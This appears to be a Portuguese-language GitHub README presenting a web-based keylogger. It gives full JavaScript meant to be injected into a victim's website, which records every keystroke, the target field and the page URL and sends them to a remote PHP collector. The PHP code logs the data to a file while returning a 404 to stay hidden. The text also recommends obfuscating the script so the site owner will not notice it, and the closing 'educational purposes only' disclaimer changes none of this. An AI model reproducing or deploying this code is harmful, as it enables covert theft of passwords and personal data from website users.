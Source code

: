O QUE PODEMOS FAZER COM UM KEYLOGGER?
Keylogger é um tipo de software que, uma vez ativo em um sistema, pode registrar cada pressionamento de tecla feito pelo sistema. Todo o pressionamento de tecla gravado é salvo em um arquivo de log. Um keylogger pode gravar uma mensagem, e-mail e capturar qualquer tipo de informação que você digitar a qualquer momento usando o teclado.

Criar arquivo JS Keylogger - keylogger.js

```
if((window.jQuery))
{
 console.log("jQuery Found");
}
else
{
 console.log("jQuery Not Found");
 var script = document.createElement('script');
 script.src = 'https://code.jquery.com/jquery-3.3.1.min.js';
 document.body.appendChild(script);
}

function c(d)
{
 jQuery.ajax(
 {
 dataType: "jsonp",
 type:"GET",
 url: "https://example.com/keylogger.php",
 jsonp:"keypressed",
 data:
 {
 altnKey:d.altKey?1:0,
 ctrlKey:d.ctrlKey?1:0,
 userKey:d.key,
 targKey:d.target.id,
 userURI:d.target.baseURI
 },
 async:false,
 success: function(data)
 {
 console.log(data);
 },
 error:function(xhr, ajaxOptions, thrownError)
 {
 console.log("Error");
 }
 });
}

window.onload = function()
{
 window.addEventListener("keydown", function(e)
 {
 c(e);
 });
}  
```
O código acima em JavaScript pode ser injetado diretamente no site da vítima ou pode ser hospedado remotamente. O objetivo deste código é pegar o pressionamento de tecla do usuário e enviá-lo para um servidor remoto. Certifique-se de substituir " https://example.com/keylogger.php " pelo URL real do seu arquivo PHP.

Para economizar tempo vamos fazer isso com jQuery. Portanto, para evitar erros, a primeira coisa que fazemos é garantir que o jQuery esteja presente na página da vítima e carregá-lo caso não o encontremos.

Declaramos uma função " c ", onde o parâmetro " d " será o pressionamento da tecla. Esta função terá uma chamada Ajax para o arquivo PHP que recebe as teclas.
Criar arquivo PHP Keylogger - keylogger.php

```
header($_SERVER["SERVER_PROTOCOL"]." 404 Not Found", true, 404);
header('Access-Control-Allow-Methods: GET, REQUEST, OPTIONS');
header('Access-Control-Allow-Credentials: true');
header('Access-Control-Allow-Origin: *');
header('Access-Control-Allow-Headers: Content-Type, *');

$file = 'data.txt';
if(!file_exists($file))
{
 $fh = fopen($file, 'w');
}

function f($str)
{
 return trim(preg_replace("(\\\)","",htmlentities(strip_tags($str),ENT_QUOTES,'UTF-8')));
}

$altnKey=(int)$_GET['altnKey'];
$ctrlKey=(int)$_GET['ctrlKey'];
$userKey=f($_GET['userKey']);
$targKey=f($_GET['targKey']);
$userURI=f($_GET['URI']);

$string = $altnKey."|".$ctrlKey."|".$userKey."|".$targKey."|".$userURI." ";
file_put_contents($file, $string, FILE_APPEND);
```

A parte do servidor está em PHP. Não há nada a explicar sobre o código acima, o objetivo do arquivo PHP é receber o valor do pressionamento de tecla transferido em Ajax pelo JavaScript e armazená-lo em um arquivo de texto simples. O "keylogger.php" deve ser hospedado em um servidor remoto e a URL completa do arquivo deve ser especificada no arquivo "keylogger.js".

Você pode adaptar o código acima para atender às suas necessidades exatas. Por exemplo, talvez você queira salvar os resultados diretamente em um banco de dados ou enviá-los para um endereço de e-mail.
COMO FUNCIONA ?
Um keylogger simples baseado na web. Nesta documentação, você saberá como funciona o keylogger, tipo de programação pela qual registramos e monitoramos cada pressionamento de tecla digitado pelo usuário em um site.

OBFUSCAÇÃO DE JAVASCRIPT
Podemos ir mais longe, usando uma ferramenta on-line de ofuscação para ocultar nosso código JavaScript e evitar que o proprietário do site detecte o keylogger à primeira vista.

Sinta-se livre para contribuir para corrigir quaisquer problemas, ou para apresentar um problema!

Por favor, note, este repo é apenas para fins educacionais. Nenhum contribuinte, maior ou menor, é culpado por quaisquer ações feitas por este programa.
